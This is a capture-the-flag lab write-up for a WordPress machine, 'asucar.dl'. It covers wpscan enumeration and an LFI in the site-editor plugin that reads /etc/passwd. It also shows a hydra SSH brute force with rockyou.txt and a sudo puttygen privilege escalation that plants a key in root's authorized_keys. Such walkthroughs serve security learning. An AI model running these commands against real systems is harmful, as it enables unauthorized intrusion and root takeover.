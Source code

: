 ```yaml
---
sticker: emoji//1f36c
---
```

# ENUMERATION


## OPEN PORTS

![](Pasted image 20241031135702.png)
2 open ports, one is a website and the other is ssh, let's fuzz the website

## FUZZING

![](Pasted image 20241031135726.png)

Seems like a WordPress page, let's take a look at it:


![](Pasted image 20241031135814.png)

First part seems off, let's look at the source code:

![](Pasted image 20241031135908.png)

Nothing too weird, let's save it in case we need it further, now, let's take a look at 
`wp-login.php`:

![](Pasted image 20241031140023.png)

We need to add `asucar.dl` to `/etc/hosts`:

![](Pasted image 20241031140104.png)


Knowing that the site uses WordPress, let's use `wpscan` to enumerate the website:


```ad-hint

##### USED COMMAND

`wpscan --url http://asucar.dl/ --random-user-agent`

##### OUTPUT

[+] URL: http://asucar.dl/ [172.17.0.2]
[+] Started: Thu Oct 31 19:12:55 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.59 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://asucar.dl/xmlrpc.php
 | Found By: Link Tag (Passive Detection)
 | Confidence: 100%
 | Confirmed By: Direct Access (Aggressive Detection), 100% confidence
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://asucar.dl/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://asucar.dl/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://asucar.dl/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.5.3 identified (Insecure, released on 2024-05-07).
 | Found By: Rss Generator (Passive Detection)
 |  - http://asucar.dl/index.php/feed/, <generator>https://wordpress.org/?v=6.5.3</generator>
 |  - http://asucar.dl/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.5.3</generator>

[+] WordPress theme in use: twentytwentyfour
 | Location: http://asucar.dl/wp-content/themes/twentytwentyfour/
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://asucar.dl/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.2
 | [!] Directory listing is enabled
 | Style URL: http://asucar.dl/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://asucar.dl/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.1'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] site-editor
 | Location: http://asucar.dl/wp-content/plugins/site-editor/
 | Last Updated: 2017-05-02T23:34:00.000Z
 | [!] The version is out of date, the latest version is 1.1.1
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://asucar.dl/wp-content/plugins/site-editor/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://asucar.dl/wp-content/plugins/site-editor/readme.txt
 


```

So, important info would be the following:

```ad-important

1. Apache/2.4.59 server(DEBIAN)
2. XML-RPC enabled and directory listing enabled for `http://asucar.dl/wp-content/uploads`
3. Site uses wordpress 6.5.3  with the `twentytwentyfour` theme.
4. `site-editor` plugin not updated running version 1.1
```


# EXPLOITATION


So, once we've enumerated all the info in the WordPress website, let's begin with exploitation, first, let's use `searchsploit` to lookup any exploit regarding that site editor version:

![](Pasted image 20241031142025.png)

Nice, we got a [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI)|LFI]]regarding this version, let's take a look at the exploit:

![](Pasted image 20241031142212.png)

So, the usage would be:

```ad-important

# USAGE

`http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

# asucar.dl exploitation:

`http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

```


Let's exploit it:

![](Pasted image 20241031142325.png)

Nice, we were able to execute the [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI)|LFI]], we found user `curiosito`

Let's use hydra and try to bruteforce the ssh login:


```ad-hint

##### USED COMMAND

`hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10`

##### OUTPUT

![](Pasted image 20241031142628.png)


```

Simple password, seems like the user didn't have that much security, let's log in to ssh:

![](Pasted image 20241031142733.png)

Nice, we can begin with PRIVESC




# PRIVILEGE ESCALATION



## SUDO -L

![](Pasted image 20241031142756.png)

We can run `puttygen`, `puttygen` is used to generate ssh keys, let's generate one for root user:

```ad-hint

##### USED


`puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/hacked`

`puttygen -L ~/.ssh/hacked » ~/.ssh/authorized_keys`

`sudo puttygen /home/curiosito/.ssh/hacked -o /root/.ssh/hacked
`
`sudo puttygen /home/curiosito/.ssh/hacked -o /root/.ssh/authorized_keys -O public-openssh`

`ssh -i /home/curiosito/.ssh/hacked root@localhost`


##### OUTPUT

![](Pasted image 20241031143301.png)


```



And that would be it for this CTF!

